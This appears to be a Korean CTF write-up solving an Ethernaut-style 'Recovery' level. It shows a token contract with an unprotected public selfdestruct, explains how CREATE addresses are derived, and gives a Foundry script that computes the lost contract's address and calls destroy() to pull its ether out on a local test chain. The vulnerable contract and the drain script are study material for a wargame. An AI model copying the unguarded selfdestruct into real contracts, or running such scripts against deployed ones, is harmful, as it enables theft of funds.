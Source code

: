 # 지문

한 컨트랙트 작성자가 아주 간단한 토큰 팩토리 컨트랙트를 만들었습니다. 누구나 손쉽게 새 토큰을 생성할 수 있습니다. 첫 번째 토큰 컨트랙트를 배포한 뒤, 작성자는 더 많은 토큰을 얻기 위해 0.001 이더를 보냈습니다. 그런데 그 이후로 해당 컨트랙트 주소를 잃어버렸습니다.

이 레벨은 분실된 컨트랙트 주소에서 0.001 이더를 회수(또는 인출)하면 완료됩니다.

```solidity

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Recovery {
    //generate tokens
    function generateToken(string memory _name, uint256 _initialSupply) public {
        new SimpleToken(_name, msg.sender, _initialSupply);
    }
}

contract SimpleToken {
    string public name;
    mapping(address => uint256) public balances;

    // constructor
    constructor(string memory _name, address _creator, uint256 _initialSupply) {
        name = _name;
        balances[_creator] = _initialSupply;
    }

    // collect ether in return for tokens
    receive() external payable {
        balances[msg.sender] = msg.value * 10;
    }

    // allow transfers of tokens
    function transfer(address _to, uint256 _amount) public {
        require(balances[msg.sender] >= _amount);
        balances[msg.sender] = balances[msg.sender] - _amount;
        balances[_to] = _amount;
    }

    // clean up after ourselves
    function destroy(address payable _to) public {
        selfdestruct(_to);
    }
}
```

# 풀이 


Etherscan을 봐서 Transaction을 분석하는 방법도 있겠지만 일단 Local에 환경을 구축하고 한지라 tracer같은게 따로 없었음.
그래서 문제에 주어진 `Recovery` contract로부터 파생되는 Contract address 계산방법을 숙지하고 그대로 계산하면됨.

별개로 Foundry에서 Create address를 계산하는 api를 지원해서 그것을 쓰면됨

```go
// go-ethereum 구현체 일부
// Create creates a new contract using code as deployment code.
func (evm *EVM) Create(caller common.Address, code []byte, gas uint64, value *uint256.Int) (ret []byte, contractAddr common.Address, leftOverGas uint64, err error) {
contractAddr = crypto.CreateAddress(caller, evm.StateDB.GetNonce(caller))
return evm.create(caller, code, gas, value, contractAddr, CREATE)
}

...
// CreateAddress creates an ethereum address given the bytes and the nonce
func CreateAddress(b common.Address, nonce uint64) common.Address {
data, _ := rlp.EncodeToBytes([]interface{}{b, nonce})
return common.BytesToAddress(Keccak256(data)[12:])
}

```



```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import {Script} from "forge-std/Script.sol";
import "forge-std/console.sol";

interface ITarget {
    function destroy(address payable _to) external;
}
contract SolveScript is Script {
    address public target = 0x8e80FFe6Dc044F4A766Afd6e5a8732Fe0977A493;

    function setUp() public {}

    // forge script -vvv script/Solve.s.sol --broadcast --tc SolveScript --legacy --private-key 0x5de4111afa1a4b94908f83103eb1f1706367c2e68ca870fc3fb9a804cdab365a --rpc-url http://localhost:8545
    function run() public {
        vm.startBroadcast();
        address token = vm.computeCreateAddress(target, 1);
        console.log("Token address calculation : %s", token);
        console.log("Token address code length : %d", token.code.length);

        ITarget(token).destroy(payable(address(0x3C44CdDdB6a900fa2b585dd299e03d12FA4293BC)));
        vm.stopBroadcast();
    }
}
```